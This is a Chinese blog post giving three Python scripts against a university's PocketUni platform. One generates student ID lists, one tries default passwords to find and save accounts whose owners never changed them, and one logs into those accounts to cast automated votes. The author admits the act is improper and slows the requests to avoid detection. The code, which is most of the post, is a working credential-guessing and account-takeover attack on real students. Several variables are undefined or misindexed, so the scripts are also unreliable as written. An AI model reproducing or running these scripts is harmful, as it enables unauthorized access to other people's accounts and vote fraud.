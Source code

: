 前言：因为班级参加学校一些活动在PU上举办，但是又不想接受这种推广，遂花几天用python3写了个自动投票，想学习的可以一起探讨下，但是这个代码恐怕不写python的人也用不了。。。

写博客主要为了给自己做笔记，省得老忘记实现过程

准备工作：学校各学院的学号加初始密码，总有一些宝宝用初始密码，而学号直接推倒就可得出。

要实现的东西：1、实现自动登录，从大量学号中跑出可登录的学号（使用初始密码的用户）并保存留用；2、利用这些学号根据投票活动选择出要投票的学院的PID；3、模仿JS点击事件投票。


----------


鉴于这也不算很正当行为，防止给PU服务器造成负担，爬虫每天尽量慢尽量少的访问PU服务器。。。也是防止被人发现刷票


----------


批量生成学号：

	# huoqunumber.py 用于创建number初始列表 
	# 保存在startnumber.txt里面
	
	import os
	
	fileObject = open("startnumber.txt", "a")
	numberIn = [15040100, 15040200, 15040500, 15040700, 15040900, 15040300, 15040400, 15040600, 15040800]
	for i in range(0, 1):
		for x in range(1,39):
			numberIn[i] = numberIn[i] + 1
			numberOut = "B" + str(numberIn4[i])
			fileObject.write(numberOut)
			# fileObject.write("\n")
	
	fileObject.close()
	
这部分主要就是I/O流的操作，number数组存放各学院班级的第一个学号，依次生成整个院的学号并保存待用。


----------


爬虫尝试登陆PU并保存可以登录的账号：

	#numbersaved.py 用于获取可登录number列表
	# 保存在numberSaved.txt

	import requests
	import urllib.request
	import re
	import configparser
	from pprint import pprint
	from bs4 import BeautifulSoup 
	
	# headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.2) AppleWebKit/535.11 (KHTML, like Gecko) Chrome/17.0.963.12 Safari/535.11'} # 浏览器头
	headers = {'User-Agent': 'Mozilla/5.0 (iPhone; CPU iPhone OS 7_1_2 like Mac OS X) AppleWebKit/535.11 (KHTML, like Gecko) Version/7.0 Mobile/11D257 Safari/535.11'} #手机headers
	
	# 拿到不断更新的hash
	def getHash(): 
	    firstURL = "http://pocketuni.net/njupt/login/"
	    request = urllib.request.Request(firstURL, headers=headers)
	    response = urllib.request.urlopen(request)
	    content = response.read()
	    pattern = re.compile(r'name=\"__hash__\" value=\"(.*?)\"', re.S)
	    __hash__ = pattern.findall(str(content, encoding = "utf-8"))
	
	    return __hash__[0]
	
	# 登录并返回cookieLen
	def create_session(loginURL, data):
	
	    session = requests.session()
	    login = session.post(loginURL, loginData, headers=headers)
	    cookiesLen = len(login.cookies)
	    print(login.cookies)
	    return session, cookiesLen
		
	if __name__ == '__main__':
	    count = 0 # 统计拿到多少可用账号
	    loginUrl = "http://pocketuni.net/index.php?app=home&mod=Public&act=doLogin&school=njupt"
	    file_object = open('B140413.txt', 'r')
	    file_number = open("B140413login.txt", "a")
	    file_nonumber = open("B140413nologin.txt", "a")
	    school = "南京邮电大学"
	    sid = "592"
	    password = "123456"
	    login = "登 录"
	    while True: # 按字节读文件
	        try:
	            number = file_object.read(9)
	            print(type(number))
	            __hash__ = getHash()
	            loginData = {'school':school, 'sid':sid, 'number':number, 'password':password, 'login':login, '__hash__':__hash__[0]}
	            session,cookiesLen = create_session(loginUrl, loginData) 
	            print(cookiesLen)
	            if cookiesLen == 0: # 通过判断cookieLen得知是否登录成功
	                print(cookiesLen)
	                file_number.write(number + "\n")
	                count += 1
	                
	        except Exception as e:
	            print(e)
	        if not number:
	            break
	    file_object.close()
	    file_number.close()
	    print("登录了" + str(count) + "个number！") 
```
这里写代码片
```
	    
登录部分主要是从上一步骤中拿到的文件中按字符读取学号，并带上浏览器的头headers向form表单post登录所需信息

```
loginData = {'school':school, 'sid':sid, 'number':number, 'password':password, 'login':login, '__hash__':__hash__[0]}
```

难点一：其中hash是为了防止恶意爬取做的随机数，每次刷新网页就会更新，所以首先要解决的就是动态获取hash的值，方法：
拿到登录页面的html并正则匹配出hash的值并返回，这个时候要注意的就是拿到的html是字节流，也就是所谓的乱码，我们要进行转换成str，然后才可以进行匹配，如果这里有疑惑可以查看此处：python3 decode与encode

> http://www.cnblogs.com/tingyugetc/p/5727383.html

	pattern = re.compile(r'name=\"__hash__\" value=\"(.*?)\"', re.S)
	__hash__ = pattern.findall(str(content, encoding = "utf-8"))

难点二：如何判断是否登录成功。最开始我以为只要拿到状态码200即是登录成功，其实只要对方服务器进行回应那就是200了，所以这个方法显然不能证明成功登陆了，后来发现登录成功与否拿到的cookie的长度是不一样的，当cookieLen=0的时候是成功登陆否则是不成功。

登录：

    session = requests.session()
    login = session.post(loginURL, loginData, headers=headers)

获取cookieLen：

	cookiesLen = len(login.cookies)
判断一下cookieLen，若为0则证明可以登录保存下来。


----------


接下来是模仿JS发送投票请求（PU要求没人投满六个才算数）
	
	# pachong.py
	
	import requests
	import urllib.request
	import re
	import configparser
	from pprint import pprint
	from bs4 import BeautifulSoup 
	
	# headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.2) AppleWebKit/535.11 (KHTML, like Gecko) Chrome/17.0.963.12 Safari/535.11'}
	headers = {'User-Agent': 'Mozilla/5.0 (iPhone; CPU iPhone OS 7_1_2 like Mac OS X) AppleWebKit/535.11 (KHTML, like Gecko) Version/7.0 Mobile/11D257 Safari/535.11'}
	
	def getHash():
	    firstURL = "http://pocketuni.net/njupt/login/"
	    request = urllib.request.Request(firstURL, headers=headers)
	    response = urllib.request.urlopen(request)
	    content = response.read()
	    pattern = re.compile(r'name=\"__hash__\" value=\"(.*?)\"', re.S)
	    __hash__ = pattern.findall(str(content, encoding = "utf-8"))
	    return __hash__[0]
	
	def create_session(loginURL, data):
	
	    session = requests.session()
	    login = session.post(loginURL, loginData, headers=headers)
	    print(login.cookies)
	    return session
	# 投票函数
	def toupiao(toupiaoUrl, session, toupiaoData):
	    login = session.post(toupiaoUrl, toupiaoData, headers = headers)
	    return login.cookies
	
	if __name__ == '__main__':
	    count = 0
	    loginUrl = "http://pocketuni.net/index.php?app=home&mod=Public&act=doLogin&school=njupt"
	    file_object = open('numbersaved.txt', 'rb')
	    school = "南京邮电大学"
	    sid = "592"
	    password = "111111"
	    login = "登 录"
	    
	    toupiaoUrl = "http://njupt.pocketuni.net/index.php?app=event&mod=Front&act=vote"
	    pids = ["98359", "99982", "99957", "99420", "93253", "98681"]

	    while True:
	        try:
	            number = file_object.read(9)
	            __hash__ = getHash()
	            loginData = {'school':school, 'sid':sid, 'number':number, 'password':password, 'login':login, '__hash__':__hash__[0]}
	            session = create_session(loginUrl, loginData) 
	            for pid in pids:
	                toupiaoData = {'id':idd, 'pid':pid}
	                toupiao(toupiaoUrl, session, toupiaoData)
	                
	        except Exception as e:
	            print(e)
	        count+=1
	        if not number:
	            break
	    file_object.close()
	    print("投票数：" + str(count))
	
此处发送登录请求与huoqunumber.py是相同的，此处读取的账号列表是huoqunumber.py得到的可登录列表。

向toupiaourl页面的form表单带headers发送数据：
	
    login = session.post(toupiaoUrl, toupiaoData, headers = headers)

因为要投票满6个院，所以遍历pid，此处的pid则是学院的唯一标识，一定要找到自己的学院并右键检查拿到pid放入列表中！
	
	for pid in pids:
		toupiaoData = {'id':idd, 'pid':pid}
		toupiao(toupiaoUrl, session, toupiaoData)



----------

重要的三个py文件已经贴出，使用顺序：

	huoqunumber.py --> numbersaved.py --> pachong.py
huoqunumber.py得到的初始化学号，numbersaved.py利用其得到可以登录的学号（即初始化密码没有修改的同学），pachong.py利用numbersaved.py拿到的可登录账号登陆并进行投票。


----------


结语：当时三天的纠结忘记的差不多了，就记得几个重要的点，代码也是随时想到哪里写到哪里凌乱的不行。。。
